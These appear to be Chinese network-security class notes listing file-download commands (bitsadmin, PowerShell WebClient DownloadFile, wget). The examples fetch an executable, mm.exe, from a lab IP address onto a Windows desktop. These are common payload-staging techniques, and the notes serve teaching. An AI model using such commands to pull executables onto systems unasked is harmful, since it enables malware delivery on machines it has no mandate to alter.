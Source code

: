   ```
# 下载文件命令

* bitsadmin

  ```
  # 下载文件
  bitsadmin /transfer 任务名 下载地址 保存地址(最后需要加上保存文件的名字)
  # 如
  bitsadmin /transfer 下载任务 http://43.128.11.131/1.txt C:\Users\xunmi\Desktop\网安\下载文件.txt
  #
  bitsadmin /transfer hackingarticle http://192.168.191.131/mm.exe C:\Users\zc\Desktop\zc.exe
  ```

  ![image-20230803172955084](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230803172955084.png)

* PowerShell

  1. cmd中启动powershell

     ```
     start powershell
     ```

  2. 输入

     ```
     $client = new-object System.Net.WebClient
     ```

  3.  1的位置填写文件下载地址，#2的位置填写下载的保存路径（注意一点要使用英文键盘的单引号）

     ```
     $client.DownloadFile('#1', '#2')
     :: $client.DownloadFile('http://192.168.191.131/mm.exe', 'C:\Users\LEGION\Desktop\mm2.exe')
     ```

     ![image-20230803200235820](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230803200235820.png)

* Linux下载

  ```
  wget IP/文件
  ```

* 乱码
  ![img](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2N4Y3NkbjY2Ng==,size_16,color_FFFFFF,t_70.png)

  使用命令

  ```bash
  chcp 65001
  ```
